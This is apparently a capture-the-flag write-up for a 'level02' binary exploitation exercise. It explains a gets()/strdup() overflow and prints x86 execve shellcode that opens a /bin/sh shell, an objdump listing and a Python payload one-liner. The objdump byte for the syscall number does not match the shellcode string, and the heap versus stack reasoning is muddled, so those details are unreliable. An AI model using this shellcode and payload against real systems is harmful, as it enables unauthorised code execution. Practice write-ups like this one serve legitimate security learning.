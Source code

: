 # level02

When using `gdb`, we notice there is a call to `p` a function. Let's decompile it with [dogbolt](dogbolt.org). We will see that `p` contains : 

* ```fflush(stdout):``` Ensures that any buffered data for the standard output (stdout) is flushed and written out. 
* ```gets(s):``` Reads a string from standard input (stdin) into the buffer s. This function is unsafe because it does not check the size of the input, allowing buffer overflow if the input exceeds 63 characters (plus the null terminator).   
* ```puts(s):``` Prints the string s to stdout.   
* ```strdup(s):``` Returns a pointer to a new string that is a duplicate of s.   

Here, a vulnerability is an overflow on `gets()` as the size of the buffer is not checked (it's deprecated now). But that is actually protected by the check you have after that exits if the memory is overwritten. So we move on to another vulnerable function that is `strdup`. To recap, as per [this source](https://nativealgorithms.medium.com/what-is-the-difference-between-stack-and-heap-buffer-overflow-attacks-70746773e16e), 

>The **stack** is an area of memory used by a program subroutine (a program’s set of instructions). It includes a return address. The return address is specified in the stack when a program contains a function call or again a subroutine. When the function is called, after its complete execution it has to return back to the original program. The return address contains the address of the instruction to return to.

So an attacker can use a buffer overflow to change the return address, allowing the attacker to run any arbitrary code on the system. Now, in our case since we can't use the stack..

>The **heap** refers to the memory available and designated to execute a task. Buffer memory is a temporary storage area in the main memory (RAM) that stores data transferring between two or more devices or between an application and a device. Buffering compensates for the difference in transfer speeds between the sender and receiver of the data.

Therefore, attackers can exploit memory allocation by sending data to overflow the buffer. So here, we need to complete a **heap based overflow attack**. One issue, in comparison to the previous exercice, is that there is no other function in the executable that e.g opens a shell. So we need to manually send malicious code in the overflow not simply redirect to an existing function.   

We know the buffer is of size `76` as per the decompiled code. Alternatively, we can use the `metasploit` patterns to find this value. Then we add the address of the EBP, and we know we'll need to overflow between 81-84 on the `EIP` that is after the `EPB`. 

```
Offset = Size of buffer + Size of saved EBP
       = 76 bytes + 4 bytes
       = 80 bytes
```

At this stage, [Leo](https://github.com/SERAC-SGM) created a script in asm to open a shell. [This](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20shellcodes.pdf) is the source to his fat knowledge, pretty cool read. Upon disassembling the malicious code, we get the machine code of the asm instructions also called the *opcodes* in the second column below, giving the following string : 

```\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80```

```
$ objdump -d shellcode

shellcode:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
8049000:	31 c0                	xor    %eax,%eax
8049002:	31 db                	xor    %ebx,%ebx
8049004:	31 c9                	xor    %ecx,%ecx
8049006:	31 d2                	xor    %edx,%edx
8049008:	52                   	push   %edx
8049009:	68 6e 2f 73 68       	push   $0x68732f6e
804900e:	68 2f 2f 62 69       	push   $0x69622f2f
8049013:	89 e3                	mov    %esp,%ebx
8049015:	52                   	push   %edx
8049016:	53                   	push   %ebx
8049017:	89 e1                	mov    %esp,%ecx
8049019:	b0 dd                	mov    $0xdd,%al
804901b:	cd 80                	int    $0x80
```

This string is 29 characters long so 80 (offset) - 29 = 51 characters will be needed to overflow the strdup call. Add an extra 4 bytes with malloc's address and an extra 4 to overflow its EIP (malloc's return address). 

```
$ python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*51+"\x44\x84\x04\x08"+"\x08\xa0\x04\x08"' > payload
$ cat payload - | ./level2
```
